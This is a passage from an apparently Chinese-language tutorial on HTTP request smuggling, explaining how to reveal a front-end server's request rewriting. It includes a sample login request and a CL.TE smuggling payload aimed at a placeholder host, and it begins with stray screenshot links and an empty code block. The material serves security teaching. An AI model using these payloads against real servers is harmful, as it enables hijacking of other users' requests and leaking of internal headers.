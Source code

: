 ```bash
```

[![](assets/1704418275-3feca3ffc86dd7c34d12ccc7bedbdcf2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155540-7d243996-aa0d-1.png)  
随后刷新页面完成解题：  
[![](assets/1704418275-e81db5ef7e03bb5171d4ecdb0298a753.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155559-884287b0-aa0d-1.png)

### 请求重写

在许多应用程序中前端服务器在将请求转发到后端服务器之前会对请求进行一些重写，通常是通过添加一些额外的请求头，例如：前端服务器可能

-   添加一些攻击头敏感信息
-   添加包含用户 IP 地址的 X-Forwarded-For
-   根据用户的会话令牌确定用户的 ID 并添加标识用户的标头

在某些情况下如果您的走私请求缺少一些通常由前端服务器添加的头，那么后端服务器可能不会以正常方式处理请求，从而导致走私请求无法达到预期的效果，通常有一种简单的方法来检测前端服务器是如何重写请求的，为此您需要执行以下步骤：

-   首先找到一个 POST 请求并是那种可以将请求参数的值回显到应用程序的响应中的包
-   随后尝试随机排列参数，使反射的参数写在消息正文的最后
-   然后将这个请求偷偷发送到后端服务器，后面直接跟着一个普通的请求，您希望显示该请求的重写形式

假设应用程序有一个反映 email 参数值的登录函数：

```bash
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

这将会导致响应包中包含以下内容信息：

```bash
<input id="email" value="wiener@normal-user.net" type="text">
```

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
```
